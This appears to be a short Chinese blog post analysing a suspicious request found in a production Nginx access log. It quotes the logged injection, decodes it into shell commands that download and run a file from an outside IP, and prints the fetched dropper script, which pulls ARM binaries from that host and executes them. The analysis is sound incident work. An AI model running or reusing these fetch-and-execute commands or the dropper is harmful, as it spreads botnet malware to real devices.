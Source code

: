 # 记一次异常请求
在分析正式环境Nginx访问日志的过程中，发现一个比较奇怪的请求路径，如下所示：
```
1.161 39.37.186.65 - - [20/Jan/2020:12:51:18 +0800] "GET /shell?cd+/tmp;rm+-rf+.j;wget+http:/\x5C/91.92.66.124/..j/.j;chmod+777+.j;sh+.j;echo+DONE HTTP/1.1" 400 559 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36" "-" 1.161 -
```

将请求参数进行转义（+号转为空格，，如下：
```
cd /tmp;
rm -rf .j;
wget http:/\x5C/91.92.66.124/..j/.j;
chmod+777+.j;
sh+.j;
echo+DONE
```

从地址`http:/\x5C/91.92.66.124/..j/.j`下载下来的文件内容是：
```
#!/bin/sh

file_server="91.92.66.124"
dir="..j"
files="arm arm7"
outfile="rNGOeFXe"

rm -rf $outfile

for file in $files
do
	wget http://$file_server/$dir/$file -O - >$outfile
	chmod 777 $outfile
	./$outfile jaws.$file
done

rm -rf $outfile
rm -rf $0
```
